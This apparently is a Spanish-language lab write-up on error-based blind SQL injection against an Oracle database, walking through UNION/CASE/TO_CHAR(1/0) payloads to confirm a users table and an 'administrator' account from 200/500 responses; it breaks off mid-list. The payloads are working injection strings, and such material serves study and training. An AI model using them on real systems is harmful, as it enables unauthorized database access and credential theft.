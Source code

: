 Como vemos a la estructura donde queremos llegar, cada base de datos es de "su padre y de su madre"

Empezamos por la orcle, esta será sencilla de saber si no vale porque necesita el from dual




**probando oracle** -->  Nos devuelve 200 para la primera condición que es la falsa y 500 para la verdadera. hemos probado oracle porque es la primera que salía y vemos que funciona, por lo que no seguimos probando otras.

```sql

' union (select case when (1=1) then to_char(1/0) else '' end from dual)--

'+union+(SELECT+CASE+WHEN+(2%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)--    --> 200 falsa

'+union+(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)--    --> 500 verdadera
```

Ahora ya podemos hacer la condición que queramos y temerlo donde está la condición 1=1

## Vamos a comprobar que la tabla users existe

Podemos usar (select 'x' from users LIMIT 1) o mejor aún probamos la misma consulta anterior pero en vez de comprobar en dual comprobamos en users.

Hay que tener cuidado porque tenemos que usar la misma que nos devolvía 200 (la condicion1=2) y cambiar dual por users

' union (select case when (1=2) then to_char(1/0) else '' end from users)--  --> **devuelve 200 por lo que existe users**

## comprobar que existe administrator

(select username from users where username='administrator')='administrator'--

básicamente la vamos a añadir dentro del select, pero ya sabemos que si existe el usuario nos devolverá error 500 y si no error 200. Importante comprobar un usuario que nos devuelva 200 (error) para comprobar que no nos hemos equivocado en la sistasis.

```bash
' union (select case when ((select username from users where username='administrator')='administrator') then to_char(1/0) else '' end from users)-- 
```

   1. con nombre falso

      ![](assets/2022-07-08-12-40-56.png)

   2. Con nombre que existe administrator
